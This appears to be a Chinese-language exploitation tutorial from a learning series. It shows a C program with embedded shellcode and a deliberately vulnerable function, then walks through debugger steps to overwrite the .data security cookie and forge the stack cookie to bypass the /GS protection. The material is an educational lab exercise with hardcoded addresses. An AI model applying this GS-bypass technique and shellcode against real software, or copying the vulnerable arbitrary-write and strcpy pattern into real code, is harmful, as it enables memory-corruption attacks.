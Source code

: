 # Replace cookie bypass GS

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <string.h>
#include <stdlib.h>

char shellcode[] =
"\x90\x90\x90\x90"//new value of cookie in .data
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xF4\x6F\x82\x90"//result of \x90\x90\x90\x90 xor EBP
"\x90\x90\x90\x90"
"\x94\xFE\x12\x00";//address of shellcode


void test(char* str, int i, char* src)
{
	char dest[200];
	if (i < 0x9995)
	{
		char* buf = str + i;
		*buf = *src;
		*(buf + 1) = *(src + 1);
		*(buf + 2) = *(src + 2);
		*(buf + 3) = *(src + 3);
		strcpy(dest, src);
	}
}

int main()
{
	char* str = (char *)malloc(0x10000);
	test(str, 0xFFFF2FB8, shellcode);
	return 0;
}
```

先来解释一下代码的意思，首先main函数里面申请一个`0x10000`大小的堆，然后执行test函数

来看看test函数是干什么的，先申请了200字节的空间表示字符数组，然后判断i的长度，也就是test函数中间的参数

接下来定义一个指针buf，将`s+i`赋值给buf，接下来再把shellcode的前四个字节赋值给buf指针指向的地址开始的前四个字节

上面代码的翻译看起来好像很不好理解，这样说吧，就是讲shellcode的前四个字节赋值给`str+i`开始的四个字节，然后i可以控制偏移，这下好理解多了

我们根据第一篇的设置，生成release版本，在调用test函数前面下个断点，比较好观察

我们载入，然后单步，可以看到三个压栈操作，那是test的参数，遇到call，跟进去

如下图，先来看左上角，标记的位置是取.data段的Cookie，可以看到这个地址是0x0040A004，Cookie的值可以不关心，反正都是要被覆盖掉的

然后来看看右下角，右下角标记出来的是调用test函数的时候压栈的三个参数，那么可以看到0x00410048是指针str指向的堆的起始地址

我们要做的就是让这个地址加上i的值等于Cookie的地址0x0040A004，这样我们就可以修改Cookie了

![](Image/1.png)

好了看到这里我们可以回去修改代码了

为了避免不必要的异常和其它问题导致调试出问题，先把shellcode的代码删掉，留前面四个字节的“\x90”

然后计算一下.data段的Cookie指针0x0040A004离指针str的长度，这里需要负数，因为是加上长度往回偏移，我这里算出来的是0xFFFF9FBC

然后修改test函数里面的参数，重新生成release版本，载入，然后单步来到test函数，我们F7跟入

在数据区看一下.data段的Cookie，可以看到这时的Cookie是0x67B72058

![](Image/2.png)

我们走完四个字节的赋值语句，也就是strcpy前面，可以看到Cookie已经被我们修改了

![](Image/3.png)

好了现在控制了.data段的Cookie，接下来就是构造栈中的Cookie了

栈中的Cookie在ss:[ebp-4]的位置，我们需要先用“\x90\x90\x90\x90”和当前的ebp进行异或，将结果保存在ss:[ebp-4]

然后ss:[ebp]填充“\x90\x90\x90\x90”，最后的返回地址填shellcode的起始位置

至于shellcode的起始地址，调用strcpy的时候会压栈，第二个压栈的就是目的地址，也就是shellcode的起始位置

补充一下：如果不知道怎么计算栈中Cookie的值，可以在生成Cookie前，将.data段Cookie的值手动修改成`\x90\x90\x90\x90`，然后就可以让汇编计算出Cookie了

![](Image/4.png)

总结：关于突破GS的就调试这么多，有些可能看起来`现实中完全没有这种情况啊！！！！！！`

但是我们这只是在调试，学习这种方法，就像这篇替换.data段的Cookie一样，我们人为确定了shellcode的起始位置

这在真正的攻击中是Impossible的，所以在调试完后，还需要各种真实环境去实战，多的就不说啦

欢迎留言交流，么么哒(′0ノ`*)